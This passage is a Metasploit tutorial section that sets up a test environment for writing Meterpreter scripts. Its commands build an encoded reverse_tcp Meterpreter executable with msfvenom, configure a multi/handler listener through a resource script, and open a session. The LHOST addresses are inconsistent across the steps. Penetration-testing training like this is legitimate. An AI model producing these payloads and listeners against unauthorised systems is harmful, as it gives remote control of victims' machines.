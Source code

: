 **There are a few things you need to keep in mind when creating a new Meterpreter script.**

- Not all versions of Windows are the same
- Some versions of Windows have security countermeasures for some of the commands
- Not all command line tools are in all versions of Windows
- Some of the command line tools switches vary depending on the version of Windows

In short, the same constraints that you have when working with standard exploitation methods. MSF can be of great help, but it can’t change the fundamentals of that target. Keeping this in mind can save a lot of frustration down the road. So keep your target’s Windows version and service pack in mind, and build to it.

For our purposes, we are going to create a stand alone binary that will be run on the target system that will create a reverse Meterpreter shell back to us. This will rule out any problems with an exploit as we work through our script development.

```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```

Wonderful. Now, we move the executable to our Windows machine that will be our target for the script we are going to write. We just have to set up our listener. To do this, lets create a short script to start up multi-handler for us.


```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler >> meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp >> meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 >> meterpreter.rc
root@kali:~# echo set ExitOnSession false >> meterpreter.rc
root@kali:~# echo exploit -j -z >> meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```
Here we are using the exploit/multi/handler to receive our payload, we specify that the payload is a Meterpreter reverse_tcp payload, we set the payload option, we make sure that the multi handler will not exit once it receives a session since we might need to re-establish one due to an error or we might be testing under different versions of Windows from different target hosts.

While working on the scripts, we will save the test scripts to ***/usr/share/metasploit-framework/scripts/meterpreter*** so that they can be run.

Now, all that remains is to start up msfconsole with our our resource script.


```bash
root@kali:~# msfconsole -r meterpreter.rc

       =[ metasploit v4.8.2-2014021901 [core:4.8 api:1.0] ]
+ -- --=[ 1265 exploits - 695 auxiliary - 202 post ]
+ -- --=[ 330 payloads - 32 encoders - 8 nops      ]

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST => 192.168.1.184
resource> set ExitOnSession false
ExitOnSession => false
resource> exploit -j -z
[*] Handler binding to LHOST 0.0.0.0
[*] Started reverse handler
[*] Starting the payload handler...
```
As can be seen above, Metasploit is listening for a connection. We can now execute our executable in our Windows host and we will receive a session. Once the session is established, we use the sessions command with the –i switch and the number of the session to interact with:

```bash
[*] Sending stage (718336 bytes)
[*] Meterpreter session 1 opened (192.168.1.158:4444 -> 192.168.1.104:1043)

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```
